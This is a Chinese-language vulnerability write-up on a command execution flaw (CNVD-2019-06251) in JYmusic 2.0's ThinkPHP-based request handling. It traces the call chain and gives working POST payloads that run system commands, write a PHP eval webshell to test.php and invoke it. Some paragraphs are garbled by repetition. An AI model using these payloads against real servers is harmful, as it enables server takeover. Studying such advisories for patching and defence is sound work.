 # （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞

> 原文：[http://book.iwonder.run/0day/JYmusic/1.html](http://book.iwonder.run/0day/JYmusic/1.html)

## 一、漏洞简介

CNVD-2019-06251

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

#### 危险函数

/core/library/think/Request.php 类中的 filterValue 函数中，使用了 call_user_func 函数。

![image](img/11095a6c24a9660e8b73806641628d2a.png)

通过构造使得$filter=system， $value=dir ，通过 call_user_func 函数即可执行系统命令” dir ”。

#### array_walk_recursive 函数

/core/library/think/Request.php 类中的 input 函数里调用了通过 array_walk_recursive 函数调用了 filterValue 函数。array_walk_recursive() 函数对数组中的每个元素应用用户自定义函数。

![image](img/f5368ffbe2dbbd2279fc5c27fa5c04b9.png)

![image](img/c803f442f8ecd884f55faf7473ad5511.png)

#### input 函数

/core/library/think/Request.php 中的 param 函数调用了 input 函数。

![image](img/05dc9c950b6355af3916150595e3b2dd.png)

![image](img/a5c71ae9c5596c20d742c80b6e1cf8e4.png)

#### exec 函数

/core/library/think/App.php 类中的 exec 函数通过 Request::instance()->param()调用了 param 函数。

![image](img/b21f4e50374e9efccb9dd5bcb8cb2762.png)

#### run 函数

/core/library/think/App.php 类中的 run 函数则调用了 exec 函数

![image](img/43014e0d9a5bbb593e14fc4d8c1ee953.png)

传入的 dispatch 和 dispatch 和 dispatch 和 config 两个参数分别来自于/core/library/think/App.php 类中 run 函数里的：

![image](img/5605a38232169f7167b2ab30dc023d80.png)

![image](img/ade5fb2fdb115c87280516edaabc07fd.png)

#### 变量覆盖

/core/library/think/App.php 类中 run 函数里，获取 dispatch 变量值时调用了 routeCheck 函数。routeCheck 函数中则通过 Route::chekc 调用了 check 函数。/core/library/think/Route.php 类中，check 函数通过 dispatch 变量值时调用了 routeCheck 函数。routeCheck 函数中则通过 Route::chekc 调用了 check 函数。/core/library/think/Route.php 类中，check 函数通过 dispatch 变量值时调用了 routeCheck 函数。routeCheck 函数中则通过 Route::chekc 调用了 check 函数。/core/library/think/Route.php 类中，check 函数通过 request->method()调用了 method 函数。

/core/library/think/Request.php 类中，通过 post 参数 _method=__construct 调用构造函数：

![image](img/bd0904817675024b2c89805db1c9b6f2.png)

在构造函数里用 filter=system 覆盖类中的 filter 变量。

![image](img/34701ac28c01bd7c04cb517d1e78a701.png)

post 参数 method=GET 就是要再次调用 method 函数，并且使得 if(true===$method)为真，从而获取 _SERVER[REQUEST_METHOD]=dir 这个参数值。

![image](img/aba3e3ff9703bb1f88b724b1f5e218e3.png)

#### 调用入口

/core/library/think/App.php 类中的 run 函数，则是在 index.php 入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method 修改请求方式为 POST

#### 参数：

![image](img/202202a1638ae79f8737e0ba132c587f.png)

POST 的参数的作用已在漏洞分析环节分析。 filter=system&_SERVER[REQUEST_METHOD]=dir&_method=__construct&method=GET POST 参数后不能有\r\n 回车换行，如果有就不能成功执行。 POST /captcha HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入 shell

![image](img/884d1f090ef2e4d655940f63337ca670.png)

```
filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET 
```

#### phpinfo()

![image](img/bc53af81f0a17e9613b16452f01e57d0.png)

```
http://0-sec.org/test.php?test=phpinfo(); 

//末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。 
```

## 四、参考链接

> [https://blog.csdn.net/yun2diao/article/details/91345116](https://blog.csdn.net/yun2diao/article/details/91345116)

